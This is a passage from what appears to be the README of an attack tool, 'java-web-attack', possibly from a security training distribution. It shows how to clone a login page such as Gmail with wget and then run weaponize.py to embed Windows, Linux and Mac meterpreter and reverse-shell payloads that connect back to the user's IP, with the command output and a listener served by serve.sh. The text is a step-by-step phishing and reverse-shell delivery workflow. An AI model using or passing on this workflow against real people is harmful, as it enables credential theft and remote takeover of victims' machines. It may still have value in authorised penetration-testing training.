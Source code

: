         Note: The default ports used for the Windows, Linux, and Mac listeners are 3000, 3001, and 3002 respectively.

`/opt/java-web-attack#` **`./serve.sh`**

Video Walkthrough
-----------------

<iframe src="https://onedrive.live.com/embed?cid=8D6C4317A39E3D29&resid=8D6C4317A39E3D29%2155668&authkey=AApvJtEtXsg4BMI" width="320" height="180" frameborder="0" scrolling="no" allowfullscreen sandbox="allow-scripts allow-pointer-lock allow-forms allow-same-origin"></iframe>

Example 1: Cloning a URL
------------------------

The `clone.sh` script is a small convenience wrapper arount the following `wget` command:

`wget --no-check-certificate -O index.html -c -k -U "$chromeUA" "$1"`

Where `$chromeUA` is Google Chrome's User Agent string and `$1` is the URL to clone.

To run the script simply pass in the URL you wish to clone. For example, to clone Gmail run:

`/opt/java-web-attack#` **`./clone.sh https://gmail.com`**

        <<<snip>>>
        Saving to: ‘index.html’
            [ <=>         ] 74,115      --.-K/s   in 0.1s
        2015-02-21 02:52:13 (649 KB/s) - ‘index.html’ saved [74115]
        Converting index.html... 0-9
        Converted 1 files in 0.001 seconds.

As shown in the output, the file is saved to **index.html**. You can open this file in your web browser to see that
it was successfully cloned.

Example 2: Weaponizing a Web Page
---------------------------------

You need an HTML page and your IP address so that the payloads know where to connect. You can get an HTML page by cloning an existing site as in Example 1 or you can use the **example_gmail.html** file provided.

The basic usage of the `weaponize.py` script is to pass in the HTML file to modify and then the IP address of your ADHD machine.

`/opt/java-web-attack#` **`./weaponize.py index.html 172.16.215.138`**

        Generating Windows payload: windows/meterpreter/reverse_tcp...
        Generating Linux payload: linux/x86/meterpreter/reverse_tcp...
        Generating Mac OS X payload: osx/x86/shell_reverse_tcp...
        Weaponizing html...
        Creating listener resource script...
        All output written to the "output" directory.

        Run "serve.sh" to easily stand up a server.

All files generated are saved in the **output** directory. The directory should now contain these files:
